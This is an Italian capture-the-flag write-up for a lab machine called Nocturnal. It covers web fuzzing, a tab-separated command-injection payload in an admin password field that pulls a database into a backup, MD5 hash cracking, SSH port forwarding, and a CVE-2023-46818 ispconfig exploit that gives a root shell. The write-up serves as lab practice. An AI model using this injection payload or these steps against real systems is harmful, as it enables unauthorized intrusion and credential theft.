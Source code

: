 # Nocturnal🌠

## 📝 Introduzione

In questa writeup vengono descritte *esclusivamente* le operazioni eseguite per ottenere le flag `user.txt` e `root.txt` sulla macchina target (10.10.11.64), seguendo quanto riportato nei log originali.

---

## 🛠️ Strumenti e Tecniche Utilizzate

* **ffuf**: per l’enumerazione del web
* **Code injection** nel campo password dell’admin panel
* **crackstation.net**: per cracking MD5 dell’utente `tobias`
* **ssh & port forwarding**
* **netstat**: per identificare servizi in ascolto
* **Script CVE-2023-46818**: exploit locale per ispconfig

---

## 🔍 1. Enumerazione con ffuf

```bash
ffuf -u http://nocturnal.htb/view.php?username=FUZZ&file=test.txt -w wordlist.txt
```

* **Risultato**: username trovato → `Amanda`

---

## 🔑 2. Accesso con Amanda e Download `privacy.odt`

1. **Trovato file**: `privacy.odt`
2. **Password estratta**: `arH[REDACTED]s1J`

---

## 🛡️ 3. Admin Panel & Code Injection

* Vulnerabilità individuata nel campo **password** dell’admin panel.
* **Obiettivo**: includere nel backup il file `../nocturnal_database/nocturnal_database.db`.

**Payload utilizzato**:

```
faze%09backups/backup_2025-05-06.zip%09-j%09../nocturnal_database/nocturnal_database.db%09.%09#comment
```

* Viene creato un backup contenente `nocturnal_database.db`.

---

## 🛠️ 4. Cracking dell’utente `tobias`

* Hash MD5 ottenuta: `55c82b1ccd55ab219b3b109b07d5061d`
* **Password trovata** su CrackStation: `slo[REDACTED]se`

---

## 🚪 5. Accesso SSH e Lettura `user.txt`

```bash
ssh tobias@10.10.11.64
# Password: slo[REDACTED]se
cat user.txt
[REDACTED]
```

---

## 🔄 6. Port Forwarding & Servizio Locale

1. **Individuazione servizi**:

   ```bash
   netstat -tuln
   ```

   * Servizio in ascolto: `127.0.0.1:8080`

2. **Port forwarding**:

   ```bash
   ssh -L 8080:127.0.0.1:8080 tobias@10.10.11.64
   ```

3. **Visita**: [http://127.0.0.1:8080](http://127.0.0.1:8080)

   * Login: `tobias:slo[REDACTED]se`

---

## 🌐 7. Exploit ispconfig (CVE-2023-46818)

* Trovata CVE: `CVE-2023-46818` per ispconfig
* **Script** copiato in locale e eseguito

```bash
ispconfig-shell# whoami
root

ispconfig-shell# find / -name root.txt 2>/dev/null
/root/root.txt

ispconfig-shell# cat /root/root.txt
[REDACTED]
```



